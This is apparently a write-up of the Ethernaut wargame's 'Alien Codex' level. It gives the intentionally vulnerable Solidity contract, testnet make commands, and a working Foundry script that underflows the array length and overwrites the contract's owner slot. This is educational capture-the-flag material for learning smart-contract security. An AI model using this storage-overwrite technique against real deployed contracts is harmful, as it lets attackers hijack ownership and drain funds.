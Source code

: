 # Level 19 - Alien Codex ⏺⏺⏺⏺

{% embed url="https://ethernaut.openzeppelin.com/level/19" %}

### Level Setup

{% hint style="info" %}
You've uncovered an Alien contract. Claim ownership to complete the level.

&#x20; Things that might help

* Understanding how array storage works
* Understanding [ABI specifications](https://solidity.readthedocs.io/en/v0.4.21/abi-spec.html)
* Using a very `underhanded` approach
{% endhint %}

### Level Contract

{% embed url="https://github.com/OpenZeppelin/ethernaut/blob/a89c8f7832258655c09fde16e6602c78e5e99dbd/contracts/src/levels/AlienCodex.sol" %}

{% code lineNumbers="true" fullWidth="true" %}
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.5.0;

import "../helpers/Ownable-05.sol";

contract AlienCodex is Ownable {
    bool public contact;
    bytes32[] public codex;

    modifier contacted() {
        assert(contact);
        _;
    }

    function makeContact() public {
        contact = true;
    }

    function record(bytes32 _content) public contacted {
        codex.push(_content);
    }

    function retract() public contacted {
        codex.length--;
    }

    function revise(uint256 i, bytes32 _content) public contacted {
        codex[i] = _content;
    }
}
```
{% endcode %}

### Exploit

{% tabs %}
{% tab title="Anvil" %}
```bash
make anvil-exploit-level-19

<INPUT_LEVEL_INSTANCE_CONTRACT_ADDRESS>
```
{% endtab %}

{% tab title="Holesky" %}
```bash
make holesky-exploit-level-19

<INPUT_LEVEL_INSTANCE_CONTRACT_ADDRESS>
```
{% endtab %}
{% endtabs %}

{% tabs %}
{% tab title="Exploit Deployment Script" %}
{% embed url="https://github.com/EridianAlpha/ethernaut-foundry/blob/6ed9d0b08c073bae1d67ccf3724e4822b5704713/script/Level19.s.sol" %}

{% code title="script/Level19.s.sol" %}
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import {Script, console} from "forge-std/Script.sol";
import {HelperFunctions} from "script/HelperFunctions.s.sol";

// ================================================================
// │                       LEVEL 19 - ALIEN CODEX                 │
// ================================================================
interface IAlienCodex {
    function makeContact() external;
    function retract() external;
    function revise(uint256 i, bytes32 _content) external;
}

contract Exploit is Script, HelperFunctions {
    function run() public {
        address targetContractAddress = getInstanceAddress();

        IAlienCodex alienCodex = IAlienCodex(targetContractAddress);

        vm.startBroadcast();

        // Make contact with the alien codex
        alienCodex.makeContact();

        // Retract the codex length by 1, causing an underflow
        alienCodex.retract();

        // Calculate the index in the array where the owner is stored
        uint256 arraySlot = uint256(keccak256(abi.encodePacked(uint256(1))));
        uint256 ownerSlot = 0;
        uint256 indexToModify = type(uint256).max - arraySlot + ownerSlot + 1;

        // Overwrite the owner with msg.sender
        alienCodex.revise(indexToModify, bytes32(uint256(uint160(msg.sender))));
        vm.stopBroadcast();
    }
}
```
{% endcode %}
{% endtab %}
{% endtabs %}

Submit instance... 🥳

### Completion Message

{% hint style="info" %}
This level exploits the fact that the EVM doesn't validate an array's ABI-encoded length vs its actual payload.

Additionally, it exploits the arithmetic underflow of array length, by expanding the array's bounds to the entire storage area of `2^256`. The user is then able to modify all contract storage.

Both vulnerabilities are inspired by 2017's [Underhanded coding contest](https://medium.com/@weka/announcing-the-winners-of-the-first-underhanded-solidity-coding-contest-282563a87079)
{% endhint %}

### Notes

{% embed url="https://github.com/nvnx7/ethernaut-openzeppelin-hacks/blob/e936301859334383d568a614084917100319205e/level_19_Alien-Codex.md" %}
